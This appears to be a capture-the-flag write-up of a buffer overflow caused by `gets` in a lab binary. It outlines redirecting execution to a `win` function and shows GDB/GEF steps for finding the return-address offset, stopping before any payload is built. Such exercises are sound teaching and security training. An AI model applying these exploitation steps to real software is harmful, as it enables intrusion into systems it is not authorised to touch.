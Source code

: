 ### Vulnerability

1. The use of `gets` function in the `vuln` function does not check bounds of the buffer, leading to buffer overflow vulnerability.

## Exploitation strategy

The goal is to exploit the buffer overflow to overwrite the return address and redirect the program flow to the win function, passing the correct arguments (`arg1` and `arg2`) to reveal the flag.

1. Determine the Offset to the Return Address.

2. Craft payload to reach `win` function.

3. Determine the offset of buffer to `arg1` and `arg2`.

4. Craft payload.

5. Exploit the program.

## Exploitation steps

1. Determine the offset of buffer to return address.

-  Run the program in GDB:

```terminal
$ gdb vuln
```

-  Create a string using `pattern create` command:

```terminal
gef➤  pattern create 300
[+] Generating a pattern of 300 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
```

-  Input the string into the program and observe the crash:

```terminal
gef➤  run
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaacgef
```

-  Inspect the value of `$eip`:

```terminal
$eip   : 0x62616164 ("daab"?)
```
